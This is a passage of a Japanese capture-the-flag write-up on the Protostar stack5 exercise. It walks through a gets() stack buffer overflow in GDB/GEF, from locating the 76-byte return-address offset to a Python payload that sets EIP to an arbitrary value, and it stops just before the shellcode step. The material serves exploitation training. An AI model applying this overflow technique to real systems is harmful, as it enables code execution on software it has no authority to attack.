 <!-- TITLE: Stack 5 -->
<!-- SUBTITLE: A quick summary of Stack 5 -->

# 問題

## 問題のパス

`/opt/protostar/bin/stack5`

## 問題のソースコード

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

非常にシンプルな仕上がり

# ファイルのコピー(scp)

```shell
(local) $ scp Protostar:/opt/protostar/bin/stack5 .
(local) $ ls | grep stack5
stack5
```

このように`scp`してローカルで基礎解析をしたほうが楽

# GDB解析 その1

## バッファオーバーフローを試す

例によって[`gef`](https://github.com/hugsy/gef/)を使う

```shell
(local) $ which gef
gef: aliased to gdb -q --ix $HOME/gef/gef.py
(local) $ gef ./stack5
GEF for linux ready, type `gef' to start, `gef config' to configure
66 commands loaded for GDB 7.11.1 using Python engine 3.5
⋮
Reading symbols from ./stack5...done.
gef➤  disas main
Dump of assembler code for function main:
   0x080483c4 <+0>:	push   ebp
   0x080483c5 <+1>:	mov    ebp,esp
   0x080483c7 <+3>:	and    esp,0xfffffff0
   0x080483ca <+6>:	sub    esp,0x50
   0x080483cd <+9>:	lea    eax,[esp+0x10]
   0x080483d1 <+13>:	mov    DWORD PTR [esp],eax
   0x080483d4 <+16>:	call   0x80482e8 <gets@plt>
   0x080483d9 <+21>:	leave  
   0x080483da <+22>:	ret    
End of assembler dump.
```

コードからもわかるとおり、`gets`関数が入力されたバイト数のチェックをしないため、バッファオーバーフローの脆弱性が存在する
breakpointを`gets`呼び出しの直後に貼って、文字列パターンを生成する
このパターンは、のちにオフセットの長さを測るのに用いる

```sh
gef➤  b *main+21
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
gef➤  pattern create 128
[+] Generating a pattern of 128 bytes
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab
[+] Saved as '$_gef0'
gef➤  r <<< $(echo -n 'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab')
⋮
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
⋮
$eip   : 0x61616174 ("taaa"?)
⋮
```

`$eip` (次の命令のアドレスを格納するレジスタ) が明らかに通常ではありえない値に書き換えられていることがわかった

## オフセットの値

次にこの*"taaa"*の文字列が`$eax`からどれほどアドレスが離れているかを調べる

```sh
gef➤  pattern search 0x61616174
[+] Searching '0x61616174'
[+] Found at offset 76 (little-endian search) likely
[+] Found at offset 73 (big-endian search) 
```

このバイナリはリトルエンディアンである

```sh
gef➤  elf-info 
Magic                 : 7f 45 4c 46
Class                 : 0x1 - 32-bit
Endianness            : 0x1 - Little-Endian
Version               : 0x1
OS ABI                : 0x0 - System V
ABI Version           : 0x0
Type                  : 0x2 - Executable
Machine               : 0x3 - x86
Program Header Table  : 0x00000034
Section Header Table  : 0x00004d28
Header Table          : 0x00000034
ELF Version           : 0x1
Header size           : 0 (0x0)
Entry point           : 0x08048310
``` 

よって、オフセットは **76**


# GDB解析 その2
先ほどとは入力文字列を変えて実行してみる
オフセットが **76** なので、

```sh
gef➤  r <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')
Starting program: /home/mkm/Develop/protostar/bin/stack5 <<< $(python -c 'print "A"*76 + "\xef\xbe\xed\x1c" + "B"*128')

Breakpoint 1, main (argc=0x42424242, argv=0x42424242) at stack5/stack5.c:11
⋮
gef➤  telescope $esp l30
0xffffd270│+0x00: 0xffffd280  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $esp
0xffffd274│+0x04: 0x0000002f ("/"?)
0xffffd278│+0x08: 0xf7e05dc8  →  0x00002b76 ("v+"?)
0xffffd27c│+0x0c: 0xf7fd31b0  →  0xf7df9000  →  0x464c457f
0xffffd280│+0x10: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"	 ← $eax
0xffffd284│+0x14: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd288│+0x18: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd28c│+0x1c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd290│+0x20: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd294│+0x24: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd298│+0x28: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
0xffffd29c│+0x2c: 0x41414141
0xffffd2a0│+0x30: 0x41414141
0xffffd2a4│+0x34: 0x41414141
0xffffd2a8│+0x38: 0x41414141
0xffffd2ac│+0x3c: 0x41414141
0xffffd2b0│+0x40: 0x41414141
0xffffd2b4│+0x44: 0x41414141
0xffffd2b8│+0x48: 0x41414141
0xffffd2bc│+0x4c: 0x41414141
0xffffd2c0│+0x50: 0x41414141
0xffffd2c4│+0x54: 0x41414141
0xffffd2c8│+0x58: 0x41414141	 ← $ebp
0xffffd2cc│+0x5c: 0x1cedbeef
0xffffd2d0│+0x60: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d4│+0x64: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2d8│+0x68: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2dc│+0x6c: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e0│+0x70: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
0xffffd2e4│+0x74: "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB[...]"
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x1cedbeef in ?? ()
⋮
$eip   : 0x1cedbeef
⋮
```

このように、適切なオフセットとパディング(今回は*"A"*)を用いることで、`$eip`を任意の値に書き換えられることがわかった

## どこに書き換えるか？

`$eip`を自由に書き換えられるということは、次に飛ばすアドレスを好きにできることである
この`$eip`を書き換えたスタックのアドレスの直後にshellcodeを仕込んで見る

ただし、`gets`を用いた際に新たにshellを開こうとすると、